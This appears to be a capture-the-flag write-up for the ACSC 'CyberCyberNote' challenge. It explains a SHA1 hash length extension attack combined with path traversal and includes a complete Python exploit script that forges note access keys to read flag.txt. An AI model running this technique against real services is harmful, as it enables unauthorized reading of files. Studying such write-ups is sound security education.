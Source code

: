 ```yaml
---
author: Aryt3
pubDatetime: 2025-05-01
title: ACSC CyberCyberNote Writeup
slug: acsc-cybercybernote
featured: true
draft: false
tags:
    - ACSC
    - crypto
description:
  A Writeup and Walkthrough of the ACSC CyberCyberNote challenge.
---
```



# CyberCyberNote

## Description

```
Somebody has leaked files from one of our servers and we have gotten wind that it might have happened through our super secure cyber note taking service. 
Can you figure out how those darn criminals cybered through those notes unauthorized?
```

## Provided Files

```
cybercybernote
├── docker-compose.yml
├── Dockerfile
└── src
    ├── app.py
    ├── notes
    ├── notetaking.py
    ├── static
    │   └── style.css
    ├── templates
    │   ├── base.html
    │   ├── index.html
    │   └── view.html
    └── utils.py
```

## Writeup

Starting off, I inspected the `app.py` which contains the main functionality of the application. <br/>
```py
import os
from urllib.parse import parse_qs


from flask import Flask, render_template, request, abort, redirect, url_for
from notetaking import new_note, list_notes, get_note


WEB_PORT = int(os.getenv("WEB_PORT", "5000"))
FLAG = os.getenv("FLAG", "dach2025{dummy_flag}")


def add_flag():
    with open("flag.txt", "w") as f:
        f.write(FLAG)


app = Flask(__name__)


@app.route('/', methods=['GET'])
def index():
    notes = list_notes()

    return render_template('index.html', notes=notes)


@app.route('/view')
def view_note():
    params = parse_qs(request.query_string)

    filename = params.get(b'filename', [b''])[0]
    provided_key = params.get(b'key', [b''])[0]

    if not filename or not provided_key:
        return abort(404)

    return render_template('view.html', filename=filename, content=get_note(filename, provided_key))


@app.route('/new', methods=['POST'])
def add_note():
    content = request.form.get('content')

    if not content:
        return abort(400)

    new_note(content)

    return redirect(url_for('index'))


if __name__ == '__main__':
    add_flag()
    app.run("0.0.0.0", port=WEB_PORT, debug=False)
```

Now to get the flag I would either have to read `global-context`, `environment variables` or `files` on the system. <br/>
Looking at the code and how the flag is written to a file, it's probably about reading files. <br/>
Knowing this I focused on the `/view` endpoint which lets us read files if we have the correct key. <br/>

The key is generated with the provided `filename` and a `SECRET_KEY` which we don't know. <br/>
```py
import os
import secrets

from hashlib import sha1

from utils import safe_path, ensure_string


NOTES_DIR = safe_path(os.getcwd(), 'notes/')


SECRET_KEY = secrets.token_hex(8).encode()


def generate_access_key(filename):
    if isinstance(filename, str):
        filename = filename.encode()
    return sha1(SECRET_KEY + filename).hexdigest()


def new_note(content):
    filename = content.split("\n")[0][:64]
    safe_filename = "".join(c for c in filename if c.isalnum() or c in (' ', '_', '-')).rstrip()
    if len(safe_filename) == 0:
        raise ValueError("Invalid filename")

    filepath = safe_path(NOTES_DIR, safe_filename + '.txt')
    with open(filepath, 'w') as f:
        f.write(content)


def list_notes():
    notes = []

    for filename in os.listdir(NOTES_DIR):
        if filename.endswith('.txt'):
            notes.append((filename, generate_access_key(filename)))

    return notes


def get_note(filename, access_key):
    if ensure_string(access_key) != generate_access_key(filename):
        raise PermissionError(f"Access denied for note '{filename}'")

    filepath = safe_path(NOTES_DIR, ensure_string(filename))
    if not os.path.exists(filepath):
        raise FileNotFoundError(f"Note '{filename}' not found")

    with open(filepath, 'r') as f:
        content = f.read()

    return content
```

> An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. <br/>
> Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data. <br/>
*[source](https://www.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)*

Even though we don’t know the secret, we can forge a valid hash for a longer message — such as one containing a path traversal payload. <br/>

### The Vulnerability

In `new_note`, filenames are limited to a sanitized string from the first line of content: <br/>
```py
def new_note(content):
    filename = content.split("\n")[0][:64]
    safe_filename = "".join(c for c in filename if c.isalnum() or c in (' ', '_', '-')).rstrip()
    if len(safe_filename) == 0:
        raise ValueError("Invalid filename")

    filepath = safe_path(NOTES_DIR, safe_filename + '.txt')
    with open(filepath, 'w') as f:
        f.write(content)
```

This limits our ability to directly create traversal filenames like `../../flag.txt`. But since the access key is calculated from the unsanitized filename, and that hash is shared with the user, we can perform a **hash length extension attack** using the original filename and key to forge a new valid key for a malicious filename — without knowing the secret key but the length of the secret key which stays the same.

To solve this I made a simple python script using the [hashpumpy](https://pypi.org/project/hashpumpy/) library. <br/>
```py
import requests, hashpumpy

BASE_URL = 'https://56slhmke6dn4q7na.dyn.acsc.land/'

# filename for exploit (used once for note-creation and later for hash-length extension attack)
filename = 'test'
payload = {
    'content': filename
}

# Creates the note {filename}.txt
r = requests.post(f'{BASE_URL}new', data=payload)

# Get generated hash from name
ORIGINAL_HASH = r.text.split(f'href="/view?filename={filename}.txt&key=')[1].split('"')[0]
ORIGINAL_FILENAME = f'{filename}.txt'

# path-traversal payload for forgery
CHANGED_FILENAME = '/../treasure.txt/../../flag.txt'

out = hashpumpy.hashpump(ORIGINAL_HASH, ORIGINAL_FILENAME, CHANGED_FILENAME, 16)
# print(out)

# execute attack with forged key
r = requests.get(f'{BASE_URL}view', params={'filename': out[1], 'key': out[0]})

# Extract flag from html
flag = r.text.split('<pre>')[1].split('</pre>')[0]

print('[+] Found flag: ', flag)
```

The `safe_path` function also doesn't defend against path-traversal, therefore we can just climb the file-system to the flag. <br/>
```py
def safe_path(*parts):
    return os.path.normpath(os.path.join(*parts))
```

Performing the attack and retrieving the flag concludes this writeup *:3*. <br/>
```py
$ python3 exploit.py
[+] Found flag:  dach2025{cybercybercybercybercybercybercyber_faqh4w1slljqrd73}
```
